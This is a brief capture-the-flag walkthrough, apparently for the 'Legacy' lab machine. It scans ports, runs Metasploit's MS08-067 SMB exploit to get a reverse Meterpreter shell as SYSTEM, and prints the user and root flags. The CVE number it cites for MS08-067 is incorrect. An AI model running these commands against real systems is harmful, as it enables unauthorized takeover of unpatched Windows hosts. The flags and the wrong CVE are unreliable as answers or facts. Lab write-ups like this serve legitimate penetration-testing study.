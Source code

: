 # Legacy - Easy

```shell
rustscan -a 10.10.10.4 --range 0-65535 --ulimit 5000 -- -sV

nmap -T4 -p 445 --script vuln 10.10.10.4

msfconsole -q

search MS08-067

use exploit/windows/smb/ms08_067_netapi

options

set RHOSTS 10.10.10.4

set LHOST 10.10.14.7

run
#we get meterpreter shell

getuid
#SYSTEM user

#search and get user and root flags
search -f user.txt

search -f root.txt
```

```markdown
Open ports & services:

  * 135 - msrpc
  * 139 - netbios-ssn
  * 445 - microsoft-ds

We can check for any vulnerabilities in the Samba service (port 445) using nmap.

As a result, we find out that the system is vulnerable to RCE (MS08-067), CVE-2008-4520

We fire up Metasploit and search for this exploit and select it.

By running the exploit, we get a Meterpreter shell as SYSTEM user, so we can get both flags.
```

1. User flag - e69af0e4f443de7e36876fda4ec7644f

2. Root flag - 993442d258b0e0ec917cae9e695d5713
